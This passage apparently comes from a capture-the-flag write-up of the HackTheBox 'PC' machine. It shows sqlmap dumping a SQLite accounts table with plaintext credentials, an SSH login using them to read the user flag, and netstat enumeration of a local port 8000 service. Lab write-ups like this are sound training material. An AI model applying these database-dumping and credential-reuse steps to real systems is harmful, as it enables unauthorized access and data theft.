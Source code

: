 Save the initial request and use sqlmap to crawl the database.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/PC]
└──╼ $sqlmap -r simpleapp.req --dump
```

```bash
[13:46:43] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[13:46:43] [INFO] fetching tables for database: 'SQLite_masterdb'
[13:46:43] [INFO] fetching columns for table 'accounts' 
[13:46:43] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

[13:46:43] [INFO] table 'SQLite_masterdb.accounts' dumped to CSV file '/home/raccoon/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/accounts.csv'
[13:46:43] [INFO] fetching columns for table 'messages' 
[13:46:43] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+-------------------+----------+
| id | message           | username |
+----+-------------------+----------+
| 49 | Will update soon. | admin    |
+----+-------------------+----------+
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/PC]
└──╼ $ssh sau@pc.htb
The authenticity of host 'pc.htb (10.10.11.214)' can't be established.
ECDSA key fingerprint is SHA256:1g85rB6ht6M95bNqeghJZT5nAhCfSdKOoWWx7TE+5Ck.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'pc.htb,10.10.11.214' (ECDSA) to the list of known hosts.
sau@pc.htb's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ cat user.txt 
5476672cafe9--------------------
```

<h1>Root</h1>

<h2>Localhost Port 8000</h2>

```bash
sau@pc:/tmp$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
```